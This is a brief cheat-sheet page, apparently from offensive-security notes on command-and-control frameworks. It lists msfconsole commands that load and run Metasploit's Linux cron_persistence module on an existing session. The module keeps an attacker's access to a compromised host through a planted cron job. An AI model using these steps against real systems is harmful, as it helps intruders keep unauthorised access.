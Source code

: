 # C2 Frameworks

## Metasploit

```
msf > use exploits/linux/local/cron_persistence

msf exploit(linux/local/cron_persistence) > options

msf exploit(linux/local/cron_persistence) > set session <session_ID>

msf exploit(linux/local/cron_persistence) > run
```